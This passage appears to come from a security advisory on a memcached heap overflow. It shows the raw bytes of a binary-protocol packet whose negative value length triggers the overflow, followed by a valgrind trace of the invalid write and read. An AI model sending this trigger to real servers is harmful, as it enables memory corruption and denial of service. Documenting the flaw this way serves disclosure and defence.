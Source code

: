 <p nodeIndex="73">Simply sending the above packet triggers the heap overflow but doesn’t cause a direct crash. In order to observe the issue, the server can be run under valgrind which then results in the following trace:</p>
<pre nodeIndex="74">
<code nodeIndex="146"><37 new auto-negotiating client connection
37: going from conn_new_cmd to conn_waiting
37: going from conn_waiting to conn_read
37: going from conn_read to conn_parse_cmd
37: Client using the binary protocol
<37 Read binary protocol data:
<37    0x80 0x1a 0x00 0xfa
<37    0x00 0x00 0x00 0x00
<37    0x00 0x00 0x00 0x00
<37    0x00 0x00 0x00 0x00
<37    0x00 0x00 0x00 0x00
<37    0x00 0x00 0x00 0x00
37: going from conn_parse_cmd to conn_nread
Value len is -250
36: going from conn_write to conn_new_cmd
36: going from conn_new_cmd to conn_waiting
36: going from conn_waiting to conn_read
36: going from conn_read to conn_closing
<36 connection closed.
==466== Thread 4:
==466== Invalid write of size 4
==466==    at 0x402FCC2: memcpy (in /usr/lib/valgrind/vgpreload_memcheck-x86-linux.so)
==466==    by 0x8059CB9: do_item_alloc (items.c:240)
==466==    by 0x8051589: process_bin_append_prepend (memcached.c:2302)
==466==    by 0x8051589: complete_nread_binary (memcached.c:2425)
==466==    by 0x8051589: complete_nread (memcached.c:2484)
==466==    by 0x80540AE: drive_machine (memcached.c:4656)
==466==    by 0x40686B5: event_base_loop (in /usr/lib/libevent-2.0.so.5.1.9)
==466==    by 0x805B1B8: worker_libevent (thread.c:380)
==466==    by 0x40CB312: start_thread (pthread_create.c:310)
==466==    by 0x41DAF2D: clone (clone.S:122)
==466==  Address 0x459cc48 is 0 bytes after a block of size 1,048,560 alloc'd
==466==    at 0x402B211: malloc (in /usr/lib/valgrind/vgpreload_memcheck-x86-linux.so)
==466==    by 0x8056218: memory_allocate (slabs.c:538)
==466==    by 0x8056218: do_slabs_newslab (slabs.c:233)
==466==    by 0x8056295: do_slabs_alloc (slabs.c:328)
==466==    by 0x8056843: slabs_alloc (slabs.c:584)
==466==    by 0x8059B7D: do_item_alloc (items.c:180)
==466==    by 0x804E515: process_update_command (memcached.c:3403)
==466==    by 0x8052024: process_command (memcached.c:3840)
==466==    by 0x8053AA5: try_read_command (memcached.c:4205)
==466==    by 0x8053AA5: drive_machine (memcached.c:4618)
==466==    by 0x40686B5: event_base_loop (in /usr/lib/libevent-2.0.so.5.1.9)
==466==    by 0x805B1B8: worker_libevent (thread.c:380)
==466==    by 0x40CB312: start_thread (pthread_create.c:310)
==466==    by 0x41DAF2D: clone (clone.S:122)
==466==
==466== Invalid read of size 4
==466==    at 0x804D16E: conn_set_state.isra.3 (memcached.c:794)
==466==    by 0x8050D52: process_bin_update (memcached.c:2278)
==466==    by 0x8050D52: complete_nread_binary (memcached.c:2427)
==466==    by 0x8050D52: complete_nread (memcached.c:2484)
==466==    by 0x80540AE: drive_machine (memcached.c:4656)
==466==    by 0x40686B5: event_base_loop (in /usr/lib/libevent-2.0.so.5.1.9)
==466==    by 0x805B1B8: worker_libevent (thread.c:380)
==466==    by 0x40CB312: start_thread (pthread_create.c:310)
==466==    by 0x41DAF2D: clone (clone.S:122)
==466==  Address 0xafba654 is not stack'd, malloc'd or (recently) free'd
</code>
</pre>